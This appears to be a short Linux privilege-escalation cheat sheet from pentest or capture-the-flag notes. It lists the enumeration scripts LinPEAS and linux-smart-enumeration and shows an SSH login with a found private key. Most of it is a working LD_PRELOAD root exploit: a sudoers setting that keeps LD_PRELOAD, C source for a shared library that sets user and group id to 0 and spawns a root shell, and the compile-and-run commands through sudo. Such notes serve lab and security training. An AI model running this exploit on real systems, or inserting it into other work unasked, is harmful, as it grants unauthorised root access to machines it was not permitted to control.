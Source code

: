 ## LinPeas, LinSmartEnum Scripts

[LinPeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

[LinSmartEnum](https://github.com/diego-treitos/linux-smart-enumeration)

```
# Run LinPeas
./linpeas.sh

# Run LinSmartEnum
./lse.sh
```

## SSH Key

```
# Readable SSH key
ssh -i <prive_key.private> bandit14@localhost

yes
```

## LD\_PRELOAD Injection

[LD\_PRELOAD Injection](https://www.hackingarticles.in/linux-privilege-escalation-using-ld\_preload/)

```
# Add the below line in /etc/sudoers
Defaults env_keep+=LD_PRELOAD
```

```
# List the Permissions
sudo -l
```

_**Pwn.c**_

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```

```
//Compile and Run

gcc -fPIC -shared -o pwn.so pwn.c -nostartfiles

sudo LD_PRELOAD=/tmp/pwn.so /usr/bin/ping
```
